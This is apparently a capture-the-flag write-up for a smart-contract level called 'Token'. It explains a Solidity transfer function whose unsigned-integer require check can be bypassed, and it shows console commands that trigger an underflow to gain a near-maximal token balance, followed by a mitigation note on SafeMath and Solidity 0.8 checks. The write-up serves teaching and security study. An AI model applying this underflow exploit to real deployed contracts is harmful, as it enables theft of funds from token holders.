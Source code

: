 # Token

The goal of this level is to hack this basic token contract, we will be given 20 tokens initially and we should get hold of more.

## Code Breakdown

[The Smart Contract's Code can be seen here.](Token.sol)

```solidity
    mapping(address => uint) balances;
    uint public totalSupply;
```

This contract contains two public variables:
* balances: a mapping to store the address of each holder of the token and its **uint256** balance.
* totalSupply: total supply of the token which will be specified at deployment.

```solidity
constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }
```
The constructor sets the deployer's balance to all of the total supply.

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```
The `transfer` function takes an address to send the tokens, and value of token to be sent.
First it requires that the balance of the sender minus the amount must be positive.
This is a poor way of checking whether the sender has enough tokens to send since all the balances and the amount are both **uint** so their subtraction can't be a negative number so it will go through anyway.

the next lines subtracts the amount of tokens sent from the sender's balance then adds it to the recipient's.

```solidity
function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
```
`balanceOf` takes an address and returns its balance.

## Level Completion

if we try to send more tokens ***(21)*** than we already have ***(20)*** .The following line the require will try subtracting 21 from our balance (20), and since the balances are ***uint*** this will lead to an underflow, meaning our new balance will be equal to ***2<sup>256</sup>-1***.

```js
> (await contract.balanceOf("0xa0D3DFEE9945d53532aDaF60acB4421de5baecA8")).toString()
<· "20"
>  await contract.transfer("0x000000000000000000000000000000000000dead", 21)
```
Now let's check our balance:
```js
> (await contract.balanceOf("0xa0D3DFEE9945d53532aDaF60acB4421de5baecA8")).toString()
<· "115792089237316195423570985008687907853269984665640564039457584007913129639935"
```

***Note: SafeMath is a famous library that automatically checks for overflows/underflows in all the mathematical operators to prevent them.***
***Since Solidity 0.8, the overflow/underflow check is implemented on the language level - it adds the validation to the bytecode during compilation.***